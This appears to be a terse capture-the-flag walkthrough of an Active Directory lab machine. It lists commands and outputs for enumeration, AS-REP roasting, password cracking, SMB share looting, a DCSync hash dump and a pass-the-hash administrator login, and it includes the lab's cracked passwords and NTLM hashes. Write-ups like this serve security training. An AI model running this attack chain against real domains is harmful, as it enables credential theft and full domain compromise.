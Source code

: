 
# nmap -sVC 10.10.96.84 -T4

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-16 17:47 EET
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64370 > 10.10.96.84:53 S ttl=38 id=49382 iplen=44  seq=1945375481 win=1024 <mss 1460>
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64371 > 10.10.96.84:53 S ttl=47 id=21233 iplen=44  seq=1945441016 win=1024 <mss 1460>
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64372 > 10.10.96.84:53 S ttl=59 id=42740 iplen=44  seq=1945506555 win=1024 <mss 1460>
Nmap scan report for 10.10.96.84
Host is up (0.37s latency).
Not shown: 987 closed ports
PORT     STATE    SERVICE       VERSION
53/tcp   filtered domain
80/tcp   open     http          Microsoft IIS httpd 10.0
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2022-02-16 15:48:19Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open     tcpwrapped
3389/tcp open     ms-wbt-server Microsoft Terminal Services
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.30 seconds
```

# AD Users Enumeration 
  ./kerbrute userenum -d spookysec.local --dc 10.10.96.84  userlist.txt 
 ``` 
james@spookysec.local
svc-admin@spookysec.local
robin@spookysec.local
darkstar@spookysec.local
administrator@spookysec.local
backup@spookysec.local
paradox@spookysec.local 
```

# AS-REP ROASTING 
   python3 GetNPUsers.py spookysec.local/ -userfile users.txt -no-pass -dc-ip 10.10.96.84 
 ```  
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set  
[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:9e9d37205ca2b017be8b60ae4decc7d8$4d81d588e53cd91588752a3d06537c32d95b9e71c8ad9000bfb2442ae8fdd36a7448fca372decebd0d6ef2a0020b5eea2d690503018447cbd9422ff59fe0aa62777c8840112179b56a1971f083ca17ef83a29d4815f86c3c5836420de128f7c9d6975bd367c02b2f22ce506b61ce0ebaa2a664b59fa40a7fa1d04db8654d62c3f09c803025e270ef112a2f833b4e2d8bc1fe756d58fa734277b25b77e521e57a7a77dc19d517a692704f5c68a5593f552bacc82202f44fecf34ddf36f97ed54d65432eef3739fad5b9ce14fbf81b306503b0191dd3eda6ed3e7ade34bb37cc1b3ee16b240369df8fb7cb79d367bee2c66b2c
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set  
```
# John Hash.txt
```  svc-admin:management2005```

# smbclient -L //10.10.96.84  -U 'svc-admin' 
```	
        Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```
# smbclient //10.10.96.84/backup -U 'svc-admin'

# smb: \> get backup_credentials.txt
```
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
backup@spookysec.local:backup2517860
```
#  DCSync
 python3 secretsdump.py -dc-ip 10.10.96.84 spookysec.local/backup:backup2517860@10.10.83.246 -use-vss
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
```

#  Pass The Hash
    evil-winrm -i 10.10.96.84 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
thm-ad\administrator
```

